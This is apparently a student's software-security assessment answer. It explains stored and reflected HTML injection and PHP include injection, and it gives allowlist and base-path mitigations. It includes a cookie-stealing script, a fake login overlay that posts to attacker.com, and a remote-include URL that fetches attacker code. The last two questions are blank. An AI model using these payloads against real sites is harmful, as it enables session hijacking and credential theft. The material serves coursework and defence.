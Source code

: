 # Assessment 2

**Author:** Waldemar Schwab  
**Created on:** 2024-05-12
**Fernuniversität Hagen** Software-Security

## Describe how an HTML-attack could be abused to gain access to credentials. (25)

A HTML attack can be realized on different ways. And always consists of different type (stored HTML Injection or Reflected HTML injection) and attack vecors. 
Vecots:

- Stored HTML Injection: Persistant attacks like entries in a Comment Section or in a blog.
- Reflected HTML injectio: URL-Injection when Parameters are not escaped the right way
  - these URLs can be sent via E-Mail or other communication tools
  - spread via forums and other (social) platforms 

Ways to steal credentials:

- Inject JS-Code and Replace original Login Form
  - Inject new Form fields
    - Hide original Form Field
    - Place your own Imput-Elements on site and replace the action path with somethin useful to you
- Inject JS-Code to exfiltrate original
  - before committing the Login Form intercept the login Progress and send the data to your own server.
- Skip the login-part and steal the Session-Cookie right away:
  - Use someting like `<script>var img=new Image();img.src='http://attacker.com/stealcookie.php?cookie='+document.cookie;</script>`
- Inject HTML and CSS code without JS
  - Hide original form fields via CSS (inline or siyle attribute)
    - add your own Input-Elements right via html
    - or just add a huge Login-Banner over the page: `<div style="position:absolute;top:0;left:0;width:100%;height:100%;z-index:1000;"><form action='http://attacker.com/capture_credentials.php' method='post'><input type='text' name='username'><input type='password' name='password'><input type='submit' value='Login'></form></div>`

## Explain how PHP-code-injections via include / require could be achieved - and prevented. (25)
Again there can be different ways to manipulate the parameter of include or require. But then multiple ways are possible for exploitation. 

Manipulation:
- When `include('content/' . $_GET['page'] . '.php');` is used you can simply maniupulate the URL and include other files then expected. 
  - Exploitation: `http://example.com/?page=http://attacker.com/malicious`
    - Prepared File on a Webserver has to be provided by the attacker.
    - After successfull infiltration, PHP Code execution is possible and might give access to other sensitive files, e.g. Database connection information, `/etc/passwd`
    - This attack reqires in a setting PHP configuration to set like this:`allow_url_include = On`
  - Mitigation:
    - Simply turn off the setting: `allow_url_include = Off`
- Lets go on with the last example and assume that `allow_url_include = Off` is set.
  - Exploitation: http://example.com/?page=admin
    - You still might be able to browse into other files: e.g there might be an admin.php waiting for us, that could be accessed or still database configuration might be somewhere stored in a php File
    - You might need to extend this attack and upload your own file via an other exploit, like unchecked file extensions on a Picture-Upload-Page on the same server.
    - Mitigation: Add input validation for expected values in $_GET['page']
    ```PHP
      $allowedPages = ['home', 'about', 'contact']; // List of allowed pages
      $page = $_GET['page'] ?? 'default'; // Default page if none specified

      if (in_array($page, $allowedPages)) { ... }
    ```
    moreover you should add absolute paths instead of relative paths to block transversal movement:
    ```PHP
      define('BASE_PATH', realpath('content/')); // Ensure the base path is absolute and normalized
      $page = $_GET['page'] ?? 'default';
      if (in_array($page, $allowedPages)) {
          $filePath = BASE_PATH . '/' . $page . '.php';
          if (file_exists($filePath)) {
              include($filePath);
          } else {
              include(BASE_PATH . '/error.php');
          }
      } else {
          include(BASE_PATH . '/error.php');
      }
    ```

  


## Discuss how PRNGs could put session-management at risk. (25)

## How would secure programming create session IDs? (25)
